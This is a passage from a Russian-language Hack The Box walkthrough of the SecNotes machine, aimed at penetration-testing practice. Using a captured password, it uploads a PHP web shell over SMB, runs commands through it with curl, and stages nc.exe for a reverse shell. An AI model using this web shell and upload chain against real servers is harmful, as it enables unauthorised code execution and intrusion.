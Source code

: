 Можем писать в `\\secnotes.htb\new-site`! И, скорее всего, это означает, что у нас есть веб-шелл :smiling_imp:

Посмотрим, что внутри:
```text
root@kali:~# smbclient '\\10.10.10.97\new-site' -U 'tyler%92g!mA8BGjOirkL%OG*&'
Try "help" to get a list of possible commands.
smb: \> ls
  .                                   D        0  Sun Aug 19 21:06:14 2018
  ..                                  D        0  Sun Aug 19 21:06:14 2018
  iisstart.htm                        A      696  Thu Jun 21 18:26:03 2018
  iisstart.png                        A    98757  Thu Jun 21 18:26:03 2018

                12978687 blocks of size 4096. 7982821 blocks available
```

Непохоже, чтобы это счастье относилось к 80-у порту, но мы помним, что у нас есть еще один открытый неисследованный порт — 8808. И это и правда он:

[![port80-browser-10.png]({{ "/img/htb/boxes/secnotes/port80-browser-10.png" | relative_url }})]({{ "/img/htb/boxes/secnotes/port80-browser-10.png" | relative_url }})
{: .center-image}

# Шелл от имена Тайлера
## Web-Shell
Так как мы имеем доступ на чтение в директорию `\new-site`, дропнем туда простой веб-шелл на PHP с помощью [smbclient](https://snovvcrash.github.io/2018/12/17/htb-active.html#smbclient "HTB{ Active } / snovvcrash’s Security Blog"):
```text
root@kali:~# cat webshell.php
<?php system($_REQUEST['cmd']); ?>

root@kali:~# smbclient '\\10.10.10.97\new-site' -U 'tyler%92g!mA8BGjOirkL%OG*&' -c 'put webshell.php evil.php'
putting file webshell.php as \evil.php (0.2 kb/s) (average 0.2 kb/s)

root@kali:~# curl 'http://10.10.10.97:8808/evil.php?cmd=whoami'
secnotes\tyler
```

Отлично! Теперь есть возможность выполнения кода.

## Reverse-Shell
Когда речь идет о Windows-хосте, есть несколько способов апгрейда веб-шелла до полноценного интерактивного шелла. Один из наиболее элегантных, на мой взгляд, это использование пауэршеловского Invoke-Expression `powershell IEX()` с аргументом `webclient.downloadstring()`, нацеленным, в свою очередь, на загрузку чего-то наподобие [Invoke-PowerShellTcp.ps1](https://github.com/samratashok/nishang/blob/master/Shells/Invoke-PowerShellTcp.ps1 "nishang/Invoke-PowerShellTcp.ps1 at master · samratashok/nishang") от Nishang. Однако в случае, когда у нас есть полноценный доступ на запись, можно [вместе с бэкдором (веб-шеллом)]({{ page.url }}#secnotes_reverse_tcpsh) кинуть на жертву [nc.exe](https://eternallybored.org/misc/netcat/ "netcat 1.11 for Win32/Win64"), чтобы не усложнять себе жизнь:
```text
root@kali:~# locate nc.exe
/usr/share/seclists/Web-Shells/FuzzDB/nc.exe
/usr/share/sqlninja/apps/nc.exe
/usr/share/windows-binaries/nc.exe

root@kali:~# smbclient '\\10.10.10.97\new-site' -U 'tyler%92g!mA8BGjOirkL%OG*&' -c 'put /usr/share/windows-binaries/nc.exe nc.exe'
putting file /usr/share/windows-binaries/nc.exe as \nc.exe (158.0 kb/s) (average 158.0 kb/s)
```
